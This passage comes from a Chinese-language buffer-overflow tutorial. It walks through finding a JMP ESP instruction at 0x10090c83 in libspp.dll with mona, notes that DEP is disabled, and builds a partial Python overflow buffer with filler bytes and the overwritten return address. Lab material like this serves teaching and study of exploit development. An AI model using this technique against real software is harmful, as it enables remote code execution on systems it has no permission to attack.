 在输出中进行搜索，我们发现LIBSSP.DLL也符合我们的需求，并且地址范围似乎不包含错误的字符。 这非常适合我们的需求。

***高级提示：如果此应用程序是在DEP支持下编译的，则我们的JMP ESP地址必须位于模块的.text代码段中，因为这是唯一同时具有Read（R）和Executable（E）权限的段。 但是，由于未启用DEP，因此我们可以自由使用此模块中任何地址的指令***

 现在，我们需要在此模块中查找自然发生的JMP ESP指令的地址

![image-20200414143812325](assets/5.BOF.assets/image-20200414143812325.png)

`!mona find -s "\xff\xe4" -m "libspp.dll"`

![image-20200414145356392](assets/5.BOF.assets/image-20200414145356392.png)

包含JMP ESP指令（0x10090c83<=>\x83\x0c\x09\x10）的地址，幸运的是，该地址不包含任何我们的错误字符

要在反汇编窗口中查看0x10090c83的内容（暂停执行），我们将单击“转到反汇编器中的地址”按钮,并输入地址。 从这里我们可以看到它确实转换为JMP ESP指令

![image-20200414150120471](assets/5.BOF.assets/image-20200414150120471.png)

```python
...
filler = "A" * 780
eip = "\x83\x0c\x09\x10"
offset = "C" * 4
buffer = "D" * (1500 - len(filler) - len(eip) - len(offset)) 
 
inputBuffer = filler + eip + offset + buffer
...
```

### 验证返回地址
